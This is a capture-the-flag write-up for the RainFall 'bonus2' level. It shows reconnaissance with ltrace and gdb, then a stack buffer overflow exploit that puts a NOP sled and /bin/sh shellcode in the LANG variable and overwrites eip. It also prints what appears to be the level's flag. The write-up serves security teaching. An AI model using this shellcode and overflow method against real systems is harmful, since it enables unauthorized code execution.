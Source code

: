 bonus2:579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

# Reconnnaissance

```shell
bonus2@RainFall:~$ ltrace ./bonus2 AAAA BBBB
__libc_start_main(0x8048529, 3, 0xbffff7e4, 0x8048640, 0x80486b0 <unfinished ...>
strncpy(0xbffff6e0, "AAAA", 40)                                                                                  = 0xbffff6e0
strncpy(0xbffff708, "BBBB", 32)                                                                                  = 0xbffff708
getenv("LANG")                                                                                                   = "en_US.UTF-8"
memcmp(0xbfffff1f, 0x804873d, 2, 0xb7fff918, 0)                                                                  = -1
memcmp(0xbfffff1f, 0x8048740, 2, 0xb7fff918, 0)                                                                  = -1
strcat("Hello ", "AAAA")                                                                                         = "Hello AAAA"
puts("Hello AAAA"Hello AAAA
)                                                                                               = 11
+++ exited (status 11) +++
```
We find out that the first 40 bytes of argv[1] are copied somewhere and the first 32 bytes of arg[2] is copied just after (`0xbffff708 - 0xbffff6e0 = 0x28 = 40`)
The binary load the env variable `LANG`.

In gdb, we notice that depending on the value of `LANG`, a different string is concatenated to the buffer were both arguments have been copied.

With this:
LANG=nl
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC BBBBBBBBBBBBBBBBBBBBBBBXXXX`

We find out that we overwrite `eip` with the final `XXXX`.
Now lets find somewhere to write our shellcode.
Because the env is loaded, we can try to put the shell code in there.

# Exploit

Find the address of the env var in gdb:
```shell
(gdb) b *main +130
Breakpoint 1 at 0x80485ab
(gdb) run a a
Starting program: /home/user/bonus2/bonus2 a a

Breakpoint 1, 0x080485ab in main ()
(gdb) x $eax
0xbffffe7c:	0x90906c6e
```
address env => `0xbffffe7c` 

We put many `\x90` char, which is a `NOP` instruction (No Operation) in case the address of the env var is not exactly the same + our shell code
```shell
export LANG=nl$(echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80")

./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "A" * 23 + "\x9c\xfe\xff\xbf"')
```